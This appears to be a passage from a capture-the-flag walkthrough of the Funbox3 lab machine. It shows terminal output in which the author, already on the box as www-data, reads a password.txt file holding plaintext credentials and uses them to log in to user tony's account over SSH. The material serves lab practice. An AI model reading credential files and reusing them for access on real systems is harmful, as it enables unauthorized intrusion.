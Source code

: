 cd home/

www-data@funbox3:/home$ ls 

ls

tony

www-data@funbox3:/home$ cd tony

cd tony

www-data@funbox3:/home/tony$ ls

ls

password.txt

www-data@funbox3:/home/tony$ cat pas

cat password.txt 

ssh: yxcvbnmYYY

gym/admin: asdfghjklXXX

/store: admin@admin.com admin

explored for tony's info and found his ssh info

  

Got  into Tony's account

  

ssh tony@192.168.169.111                                                                                                                                                                                                       21:56:37

The authenticity of host '192.168.169.111 (192.168.169.111)' can't be established.

ED25519 key fingerprint is SHA256:sMY2EwBNywi3V/cmpdMCtvcC6NM31k0H9CTRlsxALfY.

This key is not known by any other names.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '192.168.169.111' (ED25519) to the list of known hosts.

tony@192.168.169.111's password: 

Permission denied, please try again.

tony@192.168.169.111's password: 

Permission denied, please try again.

tony@192.168.169.111's password: 

Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

  

 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com
